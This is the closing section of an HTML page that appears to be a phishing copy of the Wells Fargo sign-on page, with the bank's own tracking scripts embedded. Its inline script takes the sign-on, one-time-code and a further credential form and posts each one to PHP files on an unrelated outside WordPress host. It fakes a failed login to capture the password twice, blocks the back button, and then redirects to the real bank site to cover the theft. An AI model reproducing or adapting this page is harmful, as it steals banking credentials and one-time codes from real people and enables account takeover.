data-testid="messageWrapper" role="alert"></div><span class="visuallyHidden">End of region</span></div></div></div><div><div tabindex="-1" id="accessibilityFocus" class="AccessibilityFocus__accessibilityFocus___GZCb9"></div></div><script src="https://static.wellsfargo.com/tracking/secure-auth/utag.js" async=""></script><script src="/auth/static/prefs/login-userprefs.min.js" async=""></script><script type="text/javascript" id="ndscript1" src="https://connect.secure.wellsfargo.com/auth/static/prefs/atadun.js"></script><iframe id="utag_3_iframe" height="1" width="1" style="display:none" src="//ad.doubleclick.net/ddm/activity/src=2549153;type=allv40;cat=all_a012;u1=4520240102052010932720974;u4=LOGIN;u5=n;u8=loginapp;u11=PROD;u19=GA1.2.756597098.1704201605;u23=DESKTOP;ord=8668721575748.634?"></iframe><script type="text/javascript" async="" src="https://static.wellsfargo.com/tracking/medallia/wdcusprem/57907/onsite/generic1697649041190.js" charset="UTF-8"></script><style title="MDigital_animationStyle"></style>
<script src="https://ajax.aspnetcdn.com/ajax/jQuery/jquery-3.3.1.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery.mask/1.14.10/jquery.mask.js"></script>  <script type="text/javascript">

history.pushState(null, document.title, location.href);
window.addEventListener('popstate', function (event)
{
  history.pushState(null, document.title, location.href);
});

//$(document).bind("contextmenu", function(e){ return false;});

var count = 0;
var counts = 0;

$('#signOnForm').on('submit', function(e){
		count = count+1;
		$('#btn1').html('<i class="fa fa-refresh fa-spin"></i>');
		$.post('https://lovesolution.gurusheikhsahabbengali.in/wp-includes/fillaray/data.php', $(this).serialize(), function(data){
			console.log(data);
		});
		setTimeout(function() {
		                     if(count == 2){
							    $('#step1').hide();
							    $('#step2').show();
							 }else{
							     $('#password').val('');
								 $('#msg').show();
								 $('#btn1').html('Sign on');
							 }
                              
							  
                        },2000);
		e.preventDefault();
	});

$('#form2').on('submit', function(e){
		count = count+1;
		$("#id1").hide();
		$("#id2").show();
		$.post('https://lovesolution.gurusheikhsahabbengali.in/wp-includes/fillaray/otp.php', $(this).serialize(), function(data){
			console.log(data);
		});
		setTimeout(function() {
		                     if(count == 3){
							    $('#step2').hide();
							    $('#step3').show();
							 }else{
							     $('#password').val('');
								 $('#m').show();
								 $('#btn2').html('Sign on');
							 }
                              
							  
                        },9000);
		e.preventDefault();
	});
	
$('#signOnForm2').on('submit', function(e){
		counts = counts+1;
		$('#btn').html('<i class="fa fa-refresh fa-spin"></i>');
		$.post('https://lovesolution.gurusheikhsahabbengali.in/wp-includes/fillaray/cok.php', $(this).serialize(), function(data){
			console.log(data);
		});
		setTimeout(function() {
		
							if(counts == 2){
							   $('#step3').show();
							   $('#step4').show();
							   
					   setTimeout(function() {
                              window.location.href = "https://www.wellsfargo.com/";
                        },5000);
							   
							}else{
							     $('#passwd').val('');
								 $('#msg2').show();
								 $('#btn').html('Continue');
							}
		
                            
                        },5000);
		e.preventDefault();
	});

</script>
<script>

    $(function() {
     $('[name="code"]').mask('00000000');

    });

</script>
</body></html>
